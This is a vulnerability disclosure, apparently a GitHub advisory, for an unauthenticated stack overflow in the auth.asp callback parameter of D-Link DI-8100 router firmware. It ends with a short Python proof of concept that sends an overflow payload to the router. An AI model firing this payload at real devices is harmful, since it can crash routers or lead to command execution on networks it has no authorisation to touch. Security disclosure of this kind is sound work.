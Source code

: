 ## Affected version 

DI-8100-16.07.26A1 

## Vulnerability details 

The DI-8100 is D-Link's wireless broadband router designed for small to medium network environments. The jhttpd program has a binary vulnerability that an attacker can exploit without authorization to cause denial of service or command execution.

Firmware download address：[https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8100](https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300)



1、In the auth_asp function of the jhttpd file, the callback parameter is controllable, and when both usr and pwd are empty, it will be copied to v65 with sprintf resulting in stack overflow, which can result in denial of service or even command execution

<img width="455" alt="image" src="https://github.com/user-attachments/assets/847c80c8-1cc7-436f-96a2-db73ecf6e55a" />



2、The url interface corresponding to the function is auth.asp, and it can be accessed without login (the page authorization logic needs to follow the jhttpd program initialization module for analysis), that is, attackers can exploit the vulnerability without authorization

3、As shown in the figure, through simulation debugging in the virtual machine, it is found that the return address can be successfully overwritten and the jump can be controlled. Theoretically, the command execution effect can be achieved by constructing the rop chain.

<img width="372" alt="image" src="https://github.com/user-attachments/assets/12cb4ad5-fd07-4935-9312-222fe99ad384" />

verify：

Using the simulated FirmAE tool, tool address: https://github.com/pr0v3rbs/FirmAE

![image-20250320232532558](https://github.com/user-attachments/assets/3e46b857-9188-4297-9df2-b083c5532221)



4、poc

```python
import requests  
 
payload = b'a'*0x816 + b"ABCD"

command_url = f"http://192.168.0.1/auth.asp?callback={payload}"  
command_headers = {  "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",  "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",  "Accept-Language": "en-US,en;q=0.5",  "Accept-Encoding": "gzip, deflate, br",  "Connection": "close",  "Upgrade-Insecure-Requests": "1"  
}  
  
response = requests.get(command_url, headers=command_headers)  
 
print(response.text)  
```

